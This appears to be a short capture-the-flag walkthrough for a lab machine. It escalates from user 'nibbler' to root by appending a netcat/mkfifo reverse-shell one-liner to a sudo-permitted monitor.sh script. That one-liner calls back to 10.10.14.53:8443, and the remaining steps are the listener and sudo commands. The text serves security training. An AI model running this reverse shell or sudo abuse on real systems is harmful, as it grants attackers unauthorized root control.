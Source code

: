 **Find the user flag**

```
find /home/nibbler -name user.txt
```

**Determine what the user can execute**
```
sudo -l
```

The user can execute the monitor.sh file without a passwd

**Append the one-liner to the end of monitor.sh**
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 8443 >/tmp/f' | tee -a monitor.sh
```

**Initiate a listener on your machine**
```
nc -lnvp 8443
```

**Execute the monitor.sh script on the target**
```
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Find the root.txt file**
```
find /root -name root.txt
```